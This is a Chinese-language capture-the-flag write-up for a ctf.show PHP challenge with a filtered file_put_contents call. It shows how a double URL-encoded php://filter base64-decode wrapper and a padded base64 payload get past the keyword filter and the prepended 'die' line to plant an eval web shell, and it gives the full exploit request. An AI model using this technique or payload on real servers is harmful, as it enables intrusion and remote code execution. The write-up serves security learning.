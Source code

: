 ```php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
} 
```

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这道题帮我加深了我的绕过，我甚至之前都没彻底理解了getshell，现在我才理解到这个真正的含义。

可以看到有file\_put\_contents,我们就应该猜到是用php://filter协议，又因为后面有死亡绕过，我们再来一个base64解码。

所以我们往file里面传入的不是php代码了，而是一个协议，我们在当前目录下写入一个getshell。

首先在hackbar里面写入post和get两个参数，content需要base64加密绕过，并且因为php die是6个字符，所以需要往base64字符串前面添加两个字符。我们的content想实现的是\<?php @eval($\_POST\[x]);?>

因为这样我们可以写入一个shell，然后我们可以向x里面传递执行命令的参数。

```url
content=abPD9waHAgQGV2YWwoJF9QT1NUW3hdKTs/Pg==
```

而file因为我们看到一个url解码函数，并且为了绕过一些关键词，所以我们需要两次url加密。而且是全加密（用burpsuite上面的可以实现全加密），resource可以是等于任意名字的php文件。

```url
http://1bd6bcd0-f840-4cc2-9665-0601cbe23a6d.challenge.ctf.show/?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30
```
